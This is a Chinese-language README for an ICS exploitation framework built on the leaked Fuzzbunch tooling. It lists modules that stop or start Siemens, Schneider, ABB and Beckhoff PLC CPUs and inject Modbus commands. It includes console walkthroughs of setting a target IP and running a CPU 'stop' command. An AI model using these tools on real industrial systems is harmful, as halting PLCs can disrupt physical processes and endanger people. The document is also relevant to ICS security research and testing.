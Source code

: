 
# 一、框架介绍

本框架主要使用Python语言开发，通过集成ShadowBroker释放的NSA工具Fuzzbunch攻击框架，开发一款适合工控漏洞利用的框架。由于Fuzzbunch攻击框架仅适用于Python2.6，很多核心的功能都封装成了DLL，通过函数进行调用，不便于后期的移植和使用。但是，Fuzzbunch的命令行使用的确很方便，而且够傻瓜，所以就有集成一个适合工控漏洞利用的框架想法。新框架对主要的接口使用Python重新实现，所以支持Python2.X版本。

肯定会有人问，有牛逼的MSF，搞这个玩竟儿有什么用？主要基于如下几点考虑

* MSF命令行使用不够傻瓜，纯属个人观点，仅供参考。
* 工控的很多私用协议都使用Python开发，有很多优秀的Python框架（如scapy、kitty），集成在MSF很麻烦，有一个Python的框架会方便很多。
* 最主要的一个原因是，从事工控安全以来，本人一直在使用Python，很多脚本都是基于Python开发的，想将手上所有的资源进行整合，提供一个统一的平台，方便。


# 二、依赖环境

- Python 2.7
- Works on Linux, Windows, Mac OSX, BSD


# 三、当前脚本


| Name                                   | Desc                                    |
| ---------------------------------------|:---------------------------------------:|
| Schneider_CPU_Command                  | 控制施耐德CPU启停                       |
| Siemens_300_400_CPU_Control            | 控制西门子300和400 CPU启停              |
| Siemens_1200_CPU_Control               | 控制西门子1200 CPU启停                  |
| Modbus_PLC_Injecter                    | Modbus PLC注入利用工具                  |
| plcscan                                | Modbus和S7 PLC扫描工具                  |



# 四、使用方法


    C:\Users\w.hhh>python D:/isf/isf/isf.py
    [*] Loading Plugins

                                       ???
                                 ???????????????
                              ?????           ?????
                           ????                   ????
                         ????                       ????
                        ???                           ???
                       ???             ??              ???
                      ???           ????????            ???
                     ???           ???????????           ???
                     ???          ?????????????          ???
                     ??          ???????????????          ??
                     ??         ?????????????????         ??
                     ??        ??????       ?????         ??
                     ??            ???????????            ??
                     ??            ???????????            ??
                     ??             ?????????             ??
                     ???             ???????             ???
                     ???              ?????              ???
                      ???          ???????????          ???
                       ???      ?????????????????      ???
                        ???   ????????????????????    ???
                          ?????????????????????????????
                           ???????????????????????????
                              ?????????????????????
                                 ---ICSMASTER---

    + - - - - - + [ Version 1.1.1                           ] + - - - - - +
    + - - - - - + [ 6 Touches                               ] + - - - - - +
    + - - - - - + [ 10 Exploits                             ] + - - - - - +
    + - - - - - + [ 15 Payloads                             ] + - - - - - +
    + - - - - - + [ 2 Specials                              ] + - - - - - +
    + - - - - - + [ MADE BY ICSMASTER. HTTP://ICSMASTER.COM ] + - - - - - +

## show

显示漏洞利用模块信息:

    isf > show

    Plugin Categories
    =================

      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
      Special      None
      Touch        None

    isf > show Exploit

    Plugin Category: Exploit
    ========================

      Name                            Version
      ----                            -------
      ABB_CPU_Command                 1.1.0
      Beckhoff_CX9020_CPU_Control     1.1.0
      Schneider_CPU_Command           1.1.0
      Siemens_1200_CPU_Control        1.1.0
      Siemens_300_400_CPU_Control     1.1.0

    isf >

## use

使用漏洞利用模块:

    isf > use Siemens_300_400_CPU_Control

    [!] Entering Plugin Context :: Siemens_300_400_CPU_Control
    [*] Applying Global Variables

    [*] Applying Session Parameters
    [*] Running Exploit Touches


    [!] Enter Prompt Mode :: Siemens_300_400_CPU_Control

    Module: Siemens_300_400_CPU_Control
    ===================================

      Name            Value
      ----            -----
      TargetIp
      TargetPort      102
      Slot            3
      Command         stop

    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :


## info

显示漏洞脚本信息:

    isf Exploit (Siemens_300_400_CPU_Control) > info

    Information
    ===========

        Name: Siemens_300_400_CPU_Control
     Version: 1.1.0
      Author: w3h
        Type: Exploit


    Parameters
    ==========

      Name            Value      Description
      ----            -----      -----------
      TargetIp                   Target IP Address
      TargetPort      102        Target Port
      Slot            3          The number of slot
      Command         stop       The control command of cpu



## set 


    isf Exploit (Siemens_300_400_CPU_Control) > set TargetIp 127.0.0.1
    [+] Set TargetIp => 127.0.0.1

## run/execute

执行漏洞脚本:

    isf Exploit (Siemens_300_400_CPU_Control) > run

    [!] Preparing to Execute Siemens_300_400_CPU_Control

    Module: Siemens_300_400_CPU_Control
    ===================================

      Name            Value
      ----            -----
      TargetIp        127.0.0.1
      TargetPort      102
      Slot            3
      Command         stop

    [?] Execute Plugin? [Yes] :


# 三、	EXP编写

[docs/USAGE.md](https://github.com/w3h/isf/blob/master/docs/USAGE.md) 
